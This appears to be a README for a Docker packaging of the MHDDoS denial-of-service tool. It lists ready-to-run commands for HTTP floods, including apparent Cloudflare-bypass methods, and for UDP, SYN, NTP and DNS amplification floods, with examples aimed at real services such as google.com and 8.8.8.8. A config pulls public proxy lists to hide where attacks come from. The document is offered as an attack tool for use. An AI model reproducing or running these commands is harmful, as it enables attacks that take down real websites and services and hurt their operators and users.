 # MHDDoS docker

-----------------

This is docker wrapper for https://github.com/MHProDev/MHDDoS

## Running

Proxy list example

```text
46.191.239.183:8080
user:password@46.191.239.183:8080
91.221.17.220:8000
user:password@91.221.17.220:8000
user:password@proxy.com:8000
proxy.com:8000

```

### Default

```shell
$ # Help (ignore `python3 start.py` in help text)
$ docker run --rm -it sergak01/mhddos

$ docker run --rm -it sergak01/mhddos GET http://www.google.com 1 1000 /proxy.txt 70 60
```

### With proxy volume
```shell
$ docker run --rm -it -v /absolute-path/proxy-list.txt:/proxy.txt sergak01/mhddos

$ docker run -ti --rm -v /absolute-path/proxy-list.txt:/proxy.txt sergak01/mhddos GET http://www.google.com 1 1000 /proxy.txt 70 60
```

## Docs

> Note: If the Proxy list is empty, the attack will run without proxies
> If the Proxy file doesn't exist, the script will download proxies and check them.
> Proxy Type **0** = All in config.json

### config.json from original repo

> Note: You can replace this config by when docker start by add additional volume
> ```text
> docker run -ti --rm -v /absolute-path/config.json:/home/MHDDoS/config.json sergak01/mhddos
> ```
> MHDDoS automatically load proxy list by type selected in command when `proxy.txt` file is not exist

```json
{
  "proxy-providers": [
    {"type":4, "url": "https://api.proxyscrape.com/?request=displayproxies&proxytype=socks4", "timeout": 5}, 
    {"type":4, "url": "https://www.proxy-list.download/api/v1/get?type=socks4", "timeout": 5}, 
    {"type":4, "url": "https://www.proxyscan.io/download?type=socks4", "timeout": 5}, 
    {"type":4, "url": "https://raw.githubusercontent.com/TheSpeedX/PROXY-List/master/socks4.txt", "timeout": 5}, 
    {"type":5, "url": "https://api.proxyscrape.com/?request=displayproxies&proxytype=socks5", "timeout": 5}, 
    {"type":5, "url": "https://www.proxy-list.download/api/v1/get?type=socks5", "timeout": 5},
    {"type":5, "url": "https://www.proxyscan.io/download?type=socks5", "timeout": 5},
    {"type":5, "url": "https://raw.githubusercontent.com/TheSpeedX/PROXY-List/master/socks5.txt", "timeout": 5},
    {"type":1, "url": "https://api.proxyscrape.com/?request=displayproxies&proxytype=http", "timeout": 5},
    {"type":1, "url": "https://www.proxy-list.download/api/v1/get?type=http", "timeout": 5},
    {"type":1, "url": "https://www.proxyscan.io/download?type=http", "timeout": 5},
    {"type":1, "url": "https://raw.githubusercontent.com/TheSpeedX/PROXY-List/master/http.txt", "timeout": 5},
    {"type":1, "url": "https://raw.githubusercontent.com/clarketm/proxy-list/master/proxy-list-raw.txt", "timeout": 5}
  ]
}
```

#### Proxy types

| Value |  Type  |
|:-----:|:------:|
| **4** | Socks4 |
| **5** | Socks5 |
| **1** |  HTTP  |

Layer7: docker run --rm -it sergak01/mhddos <method> <url> <socks_type5.4.1> <threads> <proxylist> <rpc> <duration>
Layer4: docker run --rm -it sergak01/mhddos <method> <ip:port> <threads> <duration> <reflector file, (only use with Amplification)>

> Methods:
> - Layer4
>  | UDP, SYN, VSE, MEM, CHAR, NTP, DNS, ARD, TCP, MINECRAFT, RDP | 11 Methods
> - Layer7
>  | APACHE, GET, DGB, DYN, BOT, POST, COOKIE, OVH, XMLRPC, STRESS, AVB, PPS, CFBUAM, NULL, SLOW, EVEN, BYPASS, HEAD, GSB, CFB | 20 Methods
> - Tools
>  | PING, DSTAT, INFO, CHECK, CFIP, DNS | 6 Methods
> - Others
>  | TOOLS, HELP, STOP | 3 Methods
> - All 40 Methods

More info: https://github.com/MHProDev/MHDDoS

Example:
```shell
$ # Layer7
$ docker run --rm -it sergak01/mhddos SLOW https://example.com 5 884 proxy.txt 70 1747
$
$ # Layer4:
$ docker run --rm -it sergak01/mhddos TCP 8.8.8.8:80 989 2560
```
